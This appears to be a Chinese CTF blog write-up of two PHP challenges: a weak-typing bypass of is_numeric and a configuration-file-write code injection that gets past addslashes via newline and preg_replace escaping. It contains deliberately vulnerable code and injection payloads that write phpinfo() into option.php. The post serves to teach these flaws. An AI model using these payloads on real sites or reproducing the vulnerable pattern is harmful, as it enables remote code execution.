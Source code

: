 # PHP-Challenge-1


&lt;!--more--&gt;

# 0x01 弱类型

```php
&lt;?php
show_source(__FILE__);
$flag = &#34;xxxx&#34;;
if(isset($_GET[&#39;time&#39;])){ 
        if(!is_numeric($_GET[&#39;time&#39;])){ 
                echo &#39;The time must be number.&#39;; 
        }else if($_GET[&#39;time&#39;] &lt; 60 * 60 * 24 * 30 * 2){ 	//5184000
                        echo &#39;This time is too short.&#39;; 
        }else if($_GET[&#39;time&#39;] &gt; 60 * 60 * 24 * 30 * 3){ 	//7776000
                        echo &#39;This time is too long.&#39;; 
        }else{ 
                sleep((int)$_GET[&#39;time&#39;]); 
                echo $flag; 
        } 
                echo &#39;&lt;hr&gt;&#39;; 
}
?&gt;
```

程序逻辑大致如下： 

1. 通过**is_numeric**判断**time**是否为数字
2. 要求输入的**time**位于**5184000**和**7776000**之间
3. 将输入的**time**转换为**int**并传入**sleep()**函数

如果真的将传入的**time**设置为上述的区间，那么程序的**sleep()**函数将会让我们一直等。

这里运用到PHP弱类型的性质就可以解决，**is_numeric()**函数支持十六进制字符串和科学记数法型字符串，而**int**强制转换下，会出现错误解析。



&gt; 5184000	  -&gt;   0x4f1a00

因此第一种方法，我们可以传入**?time=0x4f1a01**

还有就是科学记数法类型的**?time=5.184001e6**，五秒钟还是可以等的。



# 0x02 配置文件写入问题

&gt; index.php

```php
&lt;?php
$str = addslashes($_GET[&#39;option&#39;]);
$file = file_get_contents(&#39;xxxxx/option.php&#39;);
$file = preg_replace(&#39;|\$option=\&#39;.*\&#39;;|&#39;, &#34;\$option=&#39;$str&#39;;&#34;, $file);
file_put_contents(&#39;xxxxx/option.php&#39;, $file);
```

&gt; xxxxx/option.php

```php
&lt;?php
$option=&#39;test&#39;;
?&gt;
```

程序逻辑大致如下：

1. 将传入的**option**参数进行**addslashes()**字符串转义操作
2. 通过正则将**$file**中的**test**改为**$str**的值
3. 将修改后的值写入文件

这个问题是在p师傅的知识星球里面提出来的，CHY师傅整理出来的，这种情景通常出现在配置文件写入中。

### 方法一：换行符突破

&gt; ```php
&gt; ?option=aaa&#39;;%0aphpinfo();//
&gt; ```

经过**addslashes()**处理过后，**$str = aaa\\&#39;;%0aphpinfo();//**

通过正则匹配过后写入文件，**option.php**的内容变为如下内容

```php
&lt;?php 
$option=&#39;aaa\&#39;;
phpinfo();//&#39;;
?&gt;
```

可以看出后一个单引号被转义，所以单引号并没有被闭合，那么**phpinfo**就不能执行，所以再进行一次写入。

&gt; ?option=xxx

再次进行正则匹配时候，则会将引号里面的替换为**xxx**，此时**option.php**内容如下：

```php
&lt;?php
$option=&#39;xxx&#39;;
phpinfo();//&#39;;
?&gt;
```

这时候就可以执行**phpinfo**。



### 方法二：preg_replace()的转义

 ```php
 ?option=aaa\&#39;;phpinfo();//
 ```

**addslashes()**转换过后**$str = aaa\\\\\\&#39;;phpinfo();//**

经过**preg_replace()**匹配过后，会对**\\**进行转义处理，所以写入的信息如下：

```php
&lt;?php
$option=&#39;aaa\\&#39;;phpinfo();//&#39;;
?&gt;
```



# 总结

Reference：

&gt; [http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html](http://www.cnblogs.com/iamstudy/articles/config_file_write_vue.html)
&gt;
&gt; P师傅知识星球

不断的学习

---

> Author:   
> URL: http://localhost:1313/posts/web%E5%AE%89%E5%85%A8/php-challenge-1/  

